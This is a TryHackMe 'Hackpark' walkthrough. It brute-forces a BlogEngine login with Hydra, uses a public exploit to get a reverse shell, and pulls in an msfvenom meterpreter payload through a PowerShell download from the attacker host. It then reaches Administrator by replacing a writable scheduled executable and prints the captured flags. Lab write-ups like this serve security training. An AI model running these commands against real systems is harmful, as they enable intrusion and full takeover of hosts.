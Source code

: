 ```yaml
---
title: 'Hackpark - TryHackMe Walkthrough'
date: 2020-07-04 00:00:00
featured_image: '/images/posts/THMlogo.png'
excerpt: Brute forcing a website login with Hydra, identify and use a public exploit then escalate the privileges on a Windows machine!
---
```


### Goal  
Brute forcing a website login with Hydra, identify and use a public exploit then escalate the privileges on a Windows machine!

### Reconnaissance
- There is a HTTP webpage on port 80 and is running a blog.  
- Have couple pages and a login page at:  http://10.10.81.179/Account/login.aspx?ReturnURL=/admin/  
- The home page is having a clown and with a Google Image search, it is "Pennywise".  
- When visited the home page source, can see the comment saying the website is using BlogEngine 3.3.6.0  
- Performed a nmap scan on the server to find if there are any open ports and other services.

```
    PORT     STATE SERVICE            VERSION
    80/tcp   open  http               Microsoft IIS httpd 8.5
    | http-methods:
    |_  Potentially risky methods: TRACE
    | http-robots.txt: 6 disallowed entries
    | /Account/*.* /search /search.aspx /error404.aspx
    |_/archive /archive.aspx
    |_http-server-header: Microsoft-IIS/8.5
    |_http-title: hackpark | hackpark amusements
    3389/tcp open  ssl/ms-wbt-server?
    |_ssl-date: 2020-07-04T17:15:46+00:00; -5s from scanner time.
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    |_clock-skew: -5s
```

- From the nmap results, we can see the server is running IIS HTTP 8.5 on port 80 and have 6 pages that are blocked for crawlers.  
- 3389 is open - potentially for RDP.  

### Cracking the login credentials
The default credentials for Blog Engine are admin:admin (Googled it), but it didn't worked, so let's brute force the admin id using `hydra`.

Before that we need to know the post request that this web page is generating for login, using `Burp` we can intercept the request and gather the required information.

```
    POST /Account/login.aspx?ReturnURL=%2fadmin%2f HTTP/1.1
    Host: 10.10.226.92
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.226.92/Account/login.aspx?ReturnURL=/admin/
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 560
    DNT: 1
    Connection: close
    Upgrade-Insecure-Requests: 1

    __VIEWSTATE=yrGSghNTTe59EhrZcotASBiG%2Fu27NFaNuaqaeJeceE2phHcTUqsXZ3Hl0a3SRfJ0VxuhZAjPF9VCrM6Q8x%2Fj6%2FQSuqhpgUXtrre1D%2BLhluiHKRZKCMF%2Btml5SyIgJed9mYrfaKSB5ecanrjmrT%2BnZHZUlGBG7UQ%2B1aIm74Iwy7D17DW9&__EVENTVALIDATION=jQVBkrYlbLeIG3SEUABAYZue3flPuZINcj8gu8A7CNvKIDb5QlIARVaqkq%2BUWa8%2FS5XYm0r28kj%2B3Im0tRMi1Zl4cd1hWRYiAPt3Hx5keSDUgU%2B4qqJ3DdJpI9gvJniOuEDK9y5%2FfqAiU%2FKfZFGbTENvw835mmLdTut1KKEJTpoFeMIx&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=admin&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```

Using the above information from Burp, we can now frame the request in hydra for brute forcing.

```bash
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.226.92 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=yrGSghNTTe59EhrZcotASBiG%2Fu27NFaNuaqaeJeceE2phHcTUqsXZ3Hl0a3SRfJ0VxuhZAjPF9VCrM6Q8x%2Fj6%2FQSuqhpgUXtrre1D%2BLhluiHKRZKCMF%2Btml5SyIgJed9mYrfaKSB5ecanrjmrT%2BnZHZUlGBG7UQ%2B1aIm74Iwy7D17DW9&__EVENTVALIDATION=jQVBkrYlbLeIG3SEUABAYZue3flPuZINcj8gu8A7CNvKIDb5QlIARVaqkq%2BUWa8%2FS5XYm0r28kj%2B3Im0tRMi1Zl4cd1hWRYiAPt3Hx5keSDUgU%2B4qqJ3DdJpI9gvJniOuEDK9y5%2FfqAiU%2FKfZFGbTENvw835mmLdTut1KKEJTpoFeMIx&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-04 20:43:57
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.226.92:80/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=yrGSghNTTe59EhrZcotASBiG%2Fu27NFaNuaqaeJeceE2phHcTUqsXZ3Hl0a3SRfJ0VxuhZAjPF9VCrM6Q8x%2Fj6%2FQSuqhpgUXtrre1D%2BLhluiHKRZKCMF%2Btml5SyIgJed9mYrfaKSB5ecanrjmrT%2BnZHZUlGBG7UQ%2B1aIm74Iwy7D17DW9&__EVENTVALIDATION=jQVBkrYlbLeIG3SEUABAYZue3flPuZINcj8gu8A7CNvKIDb5QlIARVaqkq%2BUWa8%2FS5XYm0r28kj%2B3Im0tRMi1Zl4cd1hWRYiAPt3Hx5keSDUgU%2B4qqJ3DdJpI9gvJniOuEDK9y5%2FfqAiU%2FKfZFGbTENvw835mmLdTut1KKEJTpoFeMIx&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
[STATUS] 949.00 tries/min, 949 tries in 00:01h, 14343450 to do in 251:55h, 16 active
[80][http-post-form] host: 10.10.226.92   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-04 20:45:33

```
The brute force attack found the password for admin account as: 1qaz2wsx

### Getting a reverse shell
- Using the [exploit](https://www.exploit-db.com/exploits/46353), update the local host ip in it and upload the file with the name as PostView.ascx using the post editor.
- Open a netcat session to receive a reverse shell connection `nc -lnvp 4445`
Run the exploit with directory traversal `10.10.73.64/?theme=../../App_Data/files`
- On successful exploit, the reverse shell was established on the netcat session:

```bash
    $ nc -lnvp 4445
    listening on [any] 4445 ...
    connect to [10.2.18.4] from (UNKNOWN) [10.10.73.64] 54341
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
    whoami
    c:\windows\system32\inetsrv>whoami
    iis apppool\blog
```
The web server is running with the user `iis apppool\blog`.

### Privilege Escalation

- Lets create a meterpreter session for more stable executions, to do this, we need to create a payload using msfvenom:

`$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.2.18.4 LPORT=4444 -f exe -o shell.exe`

- Open a reverse shell handler in Metasploit using the `exploit/multi/handler` with payload `windows/meterpreter/reverse_tcp` on port 4444.

- Start a simple web server using `python3 -m http.server` in same directory.
In the reverse shell that was already opened earlier, with the help of powershell lets download the payload and start the process.

```
    powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.2.18.4:8000/shell.exe','shell.exe')"
    c:\Windows\Temp>powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.2.18.4:8000/shell.exe','shell.exe')"
    dir
    c:\Windows\Temp>dir
     Volume in drive C has no label.
     Volume Serial Number is 0E97-C552
     Directory of c:\Windows\Temp
    07/05/2020  08:34 AM    <DIR>          .
    07/05/2020  08:34 AM    <DIR>          ..
    08/06/2019  02:13 PM             8,795 Amazon_SSM_Agent_20190806141239.log
    08/06/2019  02:13 PM           181,468 Amazon_SSM_Agent_20190806141239_000_AmazonSSMAgentMSI.log
    08/06/2019  02:13 PM             1,206 cleanup.txt
    08/06/2019  02:13 PM               421 cmdout
    08/06/2019  02:11 PM                 0 DMI2EBC.tmp
    08/03/2019  10:43 AM                 0 DMI4D21.tmp
    08/06/2019  02:12 PM             8,743 EC2ConfigService_20190806141221.log
    08/06/2019  02:12 PM           292,438 EC2ConfigService_20190806141221_000_WiXEC2ConfigSetup_64.log
    07/05/2020  08:34 AM    <DIR>          Microsoft
    07/05/2020  08:34 AM            73,802 shell.exe
    08/06/2019  02:13 PM                21 stage1-complete.txt
    08/06/2019  02:13 PM            28,495 stage1.txt
    05/12/2019  09:03 PM           113,328 svcexec.exe
    08/06/2019  02:13 PM                67 tmp.dat
                  13 File(s)        708,784 bytes
                   3 Dir(s)  39,141,916,672 bytes free

    .\shell.exe
    c:\Windows\Temp>.\shell.exe  
```

- This should open a Meterpreter session:

```
    meterpreter > sysinfo
    Computer        : HACKPARK
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
    meterpreter >

```

Let see what services are running on the host and if there are any that we can use for exploit:  `meterpreter > ps`.  

From the listed services, we can see windows scheduler is running.


     1376  672   WService.exe
     1556  1376  WScheduler.exe

Navigate to `c:\Program Files (x86)\SystemScheduler\Events` to examine the scheduler logs and the file `20198415519.INI_LOG.txt` shows there is a service `Message.exe` which is running every 30 seconds and the file is writable to everyone.

    100777/rwxrwxrwx  536992   fil   2019-08-04 07:36:42 -0400  Message.exe

 Using the above, we can now replace this file with a malicious code which can spawn a shell. We already have a shell code that was generated using `msfvenom` earlier, so lets upload that to the victim and rename to Message.exe

```
    meterpreter > upload shell.exe
    [*] uploading  : shell.exe -> shell.exe
    [*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): shell.exe -> shell.exe
    [*] uploaded   : shell.exe -> shell.exe
    meterpreter > dir
```

Background the current Meterpreter session and start a new `multi/handler`  reverse shell listener. Wait for the scheduler to execute the malicious code and once executed, a new connection is established with administrator id.

```
    meterpreter > background
    [*] Backgrounding session 2...
    msf5 exploit(multi/handler) > run

    [*] Started reverse TCP handler on 10.2.18.4:4444
    [*] Sending stage (176195 bytes) to 10.10.29.198
    [*] Meterpreter session 3 opened (10.2.18.4:4444 -> 10.10.29.198:64956) at 2020-07-05 12:56:07 -0400
    meterpreter > shell
    Process 2484 created.
    Channel 1 created.
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.

    C:\PROGRA~2\SYSTEM~1>whoami
    whoami

    C:\PROGRA~2\SYSTEM~1>echo %username%
    echo %username%
    Administrator
```

- We now have the Meterpreter session with Administrator access and grab the flags from `C:\Users\jeff\Desktop\user.txt` and `C:\Users\Administrator\Desktop\root.txt` which are 759bd8af507517bcfaede78a21a73e39 and 7e13d97--------9881a3eb3d78d3e72 respectively.


### Using WinPEAS

 [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) is a utility where we can find more information about the Windows host and for any vulnerabilities. Download the file into the victim machine just like shell.exe above.

From the Meterpreter, start the shell and execute the winPEAS.bat.

    meterpreter > shell
    Process 1008 created.
    Channel 1 created.
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.

    c:\Windows\Temp>.\winPEAS.bat

The system Original Install Date:     8/3/2019, 10:43:23 AM.

